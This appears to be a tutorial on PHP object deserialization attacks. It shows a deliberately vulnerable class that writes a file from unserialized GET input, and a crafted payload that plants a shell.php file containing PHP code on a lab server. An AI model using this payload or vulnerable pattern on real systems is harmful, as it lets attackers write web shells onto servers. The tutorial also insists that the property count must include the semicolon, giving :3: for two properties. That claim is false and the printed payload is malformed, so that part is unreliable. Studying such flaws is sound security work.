 ```
     */
    public function __construct($file, $data)
    {
        $this->file = $file; // Take in a single parameter of a filename, this can be statically encoded and the attack will work .e.g, $this->file = "test.txt";
        $this->data = $data; // Take in a single parameter of the files contents, this can be statically encoded and the attack will work .e.g, $this->data = "test";
    }

    /**
     * __destructor for when unserialized is called,
     * this will generate a file based on what the files name is passed
     * along with the contents that are passed.
     */
    function __destruct()
    {
        file_put_contents($this->file, $this->data);
    }
}
$data = unserialize($_GET['data']); //Get parameter for ease of use, however, this can be a post request as well
?>

```

Using a standard LAMP server, I am running Ubuntu 18.04 with the most up to date Apache, MySQL and PHP situated on VMWare ESXI I can traverse to my server's URI and locate my file as follows:
```
http://myWebServer/OOP/deserialization_attack.php
```

Now that we have our environment and testing program we can begin to craft our attack.
We can use the serialize function to generate our string lengths and attack pathingas follows:
```
$my_string = serialize('<?php phpinfo(); ?>');
```
Which will output
```
s:19:"<?php phpinfo(); ?>"; 
```
While this looks confusing to start with, please stay along for this as it does get much easier to read once explained.

So what does a full attack payload look like you might be asking, well here it is...
```
data=O:6:"attack":3:{s:4:"file";s:9:"shell.php";s:4:"data";s:19:"<?php phpinfo(); ?>";}

```
The structure however, can be broken down as follows (left side is the serialized string shown above, and the right side is our PHP code in our sample deserialization_attack.php file):

```
data -> is our $_GET['data']
O:6:"attack" -> is class attack, which is our object of type class attack which is 6 characters in length,e.g., it would be O:4:"test" if we renamed the class from attack to test
:3: -> is the three parameters that are within our object $file, $data AND our ';' end line
```
**It is vital to remember that many of the example that are on the internet show a :2: after their class object, however, you must remember to incorporate your semi colon into the calculations, otherwise the exploit will not work!**
